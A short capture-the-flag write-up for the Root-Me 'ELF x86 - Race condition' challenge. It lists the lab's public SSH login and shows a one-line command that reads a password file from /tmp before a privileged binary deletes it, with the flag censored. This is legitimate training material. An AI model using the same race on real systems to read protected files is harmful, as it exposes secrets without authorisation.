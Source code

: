# ELF x86 - Race condition
https://www.root-me.org/en/Challenges/App-System/ELF-x86-Race-condition
```
Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 No 
NX 	Non-Executable Stack 	                 No 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch12@challenge02.root-me.org  
Username	app-systeme-ch12
Password	app-systeme-ch12
```
According to the source code, the program will create a temporary file with the permissions 444, will open the .passwd file and write it to the temporary file.<br>
Then it will sleep for 0.25 seconds and will delete the temporary file.<br>
So, the basic idea is to run the executable and then (while the executable sleeps) read the temporary file, which is at **/tmp/tmp_file.txt**.

In order of doing so, let's use the linux's "&" operator, which enables running multiple commands concurrently.<br>
After a few tries, one will be able to get the following output:
```sh
app-systeme-ch12@challenge02:~$ ./ch12 & cat /tmp/tmp_file.txt
[5] 32037
cat: /tmp/tmp_file.txt: No such file or directory
[4]   Done                    ./ch12
app-systeme-ch12@challenge02:~$ ./ch12 & cat /tmp/tmp_file.txt
[6] 32039
<censored>
[5]   Done                    ./ch12
```

